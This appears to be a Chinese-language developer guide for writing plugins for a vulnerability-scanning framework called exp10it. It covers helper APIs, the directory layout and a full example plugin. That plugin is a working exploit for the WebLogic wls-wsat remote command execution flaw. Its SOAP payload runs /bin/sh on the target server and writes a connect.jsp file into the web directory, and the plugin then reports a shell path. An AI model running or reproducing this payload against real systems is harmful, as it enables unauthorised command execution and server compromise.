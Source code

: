 ### 插件开发


#### 0x00 About

开发的插件为具体的某一中高危漏洞扫描插件,如joomla远程执行漏洞插件,weblogic命令执行插件,wordpress sql注入插件

脚本中的target统一设置为sys.argv[1],sys.argv[1]的值为目标url

```
# 目标url可为以下3种:
# eg:
# 1.http://www.baidu.com:8080/cms/
# 2.http://www.baidu.com
# 3.http://www.baidu.com:8081/cms/index.php
```

#### 0x01 主要API

cms_url = get_cms_entry_from_start_url(target):
    简介:用于整理一个url的cms入口
    参数:target为目标url
    返回值:目标url的cms入口地址
    用法示例:
    get_cms_entry_from_start_url("http://www.baidu.com:8081/cms/index.php")的返回值为"http://www.baidu.com:8081/cms/"
    get_cms_entry_from_start_url("http://www.baidu.com:8081/cms")的返回值为"http://www.baidu.com:8081/cms/"
    get_cms_entry_from_start_url("http://www.baidu.com:8081")的返回值为"http://www.baidu.com:8081/"

get_target_urls_from_db(target,"exp10itdb"):
    简介:用于从数据库中取出已经完成的爬虫后的目标的所有url,用于漏洞检测
    参数:target为目标url,目前第2个参数固定为"exp10itdb"
    返回值:目标url列表,返回值是列表形式,列表中的第个值为url,但是有类特殊的url(url中包含"^"符号),这类特殊的url表示
           post类型的url,"^"之后的值为post的内容
    用法示例:
    get_target_urls_from_db("https://www.baidu.com/cms","exp10itdb")的返回值为:
    ['https://www.baidu.com/cms/admin.php',
    'https://www.baidu.com/cms/index.php?a=1&b=2',
    'https://www.baidu.com/cms/upload.php^filename=1.php&Submit=Submit',
    'https://www.baidu.com/cms/about.php',
    'https://www.baidu.com/cms/manage.php']

get_target_open_port_list(target):
    简介:从数据库中取出已经有的端口信息
    参数:target为目标url
    返回值:目标打开的端口信息,返回值为列表形式,如['80','8080','3306']
    用法示例:
    get_target_open_port_list("http://www.baidu.com:8081/cms/login.html")的返回值为["80","8080","3306","3389"]

COMMON_NOT_WEB_PORT_LIST= ['21', '22', '53', '137','139', '145', '445', '1433', '3306', '3389']
    这是一个常量,值的类型是列表,定义在在exp10it模块中

#### 0x02 插件目录结构

    插件放到一个新建的目录中,插件名与目录名相同
    eg:
    制作一个weblogic漏洞检测插件时,要新建一个weblogic目录,并在weblogic目录下新建weblogic.py,weblogic.py为要编写的
    插件,weblogic目录下如果检测到有漏洞需要生成一个result.txt,没有则不用生成,weblogic目录下可以有除weblogic.py外
    的用于检测漏洞的其他文件,也可没有其他文件,例如,检测到有漏洞后的weblogic目录下结构为(如果weblogic.py运行完后没
    有检测到漏洞则没有result.txt):

    weblogic/
    ├── result.txt
    └── weblogic.py

#### 0x03 插件建议

    1.目录命名时以下划线为连接符(如果目录名较长),目录名命名要能尽量反映出漏洞情况,如某个插件目录名为joomla_rce

    2.如果有多个网络请求,建议用多线程,eg:

    from concurrent import futures
    with futures.ThreadPoolExecutor(max_workers=15) as executor:
        executor.map(check, test_url_list)

    3.如果检测漏洞的过程中要用到临时文件,建议设置这个临时文件为"/tmp/xxx+"+str(time.time()),如:
        如果weblogic需要用到临时文件存放一些内容,建议临时文件设置为"/tmp/weblogic_1512724639.5173461",临时文件创
        建后记得删除(这里只是举个例子,下面的weblogic漏洞检测插件没有用到临时文件)

    4.插件建议只是建议,并不一定得这样,但是这样肯定是更好的,也有利于减少bug的产生和规范插件编写

#### 0x04 插件示例

如下为weblogic命令执行漏洞检测插件示例,详情见代码及注释

```
import requests
import sys
import re
import os
from requests.packages.urllib3.exceptions import InsecureRequestWarning
from exp10it import COMMON_NOT_WEB_PORT_LIST
from exp10it import CLIOutput
from urllib.parse import urlparse
from exp10it import get_cms_entry_from_start_url
from exp10it import get_target_open_port_list

# 禁用安全请求警告
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
current_dir = os.path.split(os.path.realpath(__file__))[0]


# 判断漏洞是否存在
target = sys.argv[1]
# 传入的target是目标url,目标url有3种:
# eg:
# 1.http://www.baidu.com:8080/cms/
# 2.http://www.baidu.com
# 3.http://www.baidu.com:8081/cms/index.php

test_url_list = []
cms_url = get_cms_entry_from_start_url(target)
# get_cms_entry_from_start_url函数将获取target的cms入口,eg:
# target="http://www.baidu.com:8081/cms/index.php"时,函数返回值为"http://www.baidu.com:8081/cms/"
# target="http://www.baidu.com:8081/cms"时,函数返回值为"http://www.baidu.com:8081/cms/"
# target="http://www.baidu.com:8081"时,函数返回值为"http://www.baidu.com:8081/"

parsed = urlparse(target)
test_url_list.append(cms_url)

open_port_list = get_target_open_port_list(target)

for port in open_port_list:
    if port not in COMMON_NOT_WEB_PORT_LIST:
        test_url_list.append(parsed.scheme + "://" +
                             parsed.hostname + ":" + port)


def check(url):
    # 判断weblogic漏洞是否存在的地址
    check_addr = '/wls-wsat/CoordinatorPortType11'
    shell_addr = '/bea_wls_internal/connect.jsp'
    vuln_url = url + check_addr
    heads = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36',
             'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
             'Accept-Language': 'zh-CN,zh;q=0.8',
             'SOAPAction': "",
             'Content-Type': 'text/xml;charset=UTF-8'
             }

    postStr = '''
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">  
  <soapenv:Header> 
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">  
      <java> 
        <object class="java.lang.ProcessBuilder"> 
          <array class="java.lang.String" length="3"> 
            <void index="0"> 
              <string>/bin/sh</string> 
            </void>  
            <void index="1"> 
              <string>-c</string> 
            </void>  
            <void index="2"> 
              <string>find $DOMAIN_HOME -type d -name bea_wls_internal|while read f;do find $f -type f -name
              index.html;done|while read ff;do echo vulexist>$(dirname $ff)/connect.jsp;done</string>
            </void> 
          </array>  
          <void method="start"/> 
        </object> 
      </java> 
    </work:WorkContext> 
  </soapenv:Header>  
  <soapenv:Body/> 
</soapenv:Envelope>
'''

    content = requests.get(vuln_url, verify=False, timeout=10)
    if content.status_code == 200:
        rsp = requests.post(vuln_url, headers=heads, data=postStr.encode(
            "utf-8"), verify=False, timeout=10)
        content = rsp.content
        import chardet
        bytesEncoding = chardet.detect(content)['encoding']
        content = content.decode(bytesEncoding)

        if re.search(r"java\.lang\.ProcessBuilder", content, re.I):
            # print "getshell success,shell is:%s"%(url+shell_addr)
            string_to_write = "Congratulations! weblogic 远程命令执行漏洞存在:\n" + url + shell_addr + "\n"
            CLIOutput().good_print(string_to_write)
            with open("%s/result.txt" % current_dir, "a+") as f:
                f.write(string_to_write)
        else:
            print("失败")
    else:
        print(content.status_code)


from concurrent import futures
with futures.ThreadPoolExecutor(max_workers=15) as executor:
    executor.map(check, test_url_list)
```

#### 0x05 其它

    3xp10it框架存入数据相关结构(在编写插件时一般用不到)在[这里][1]

[1]: store.md
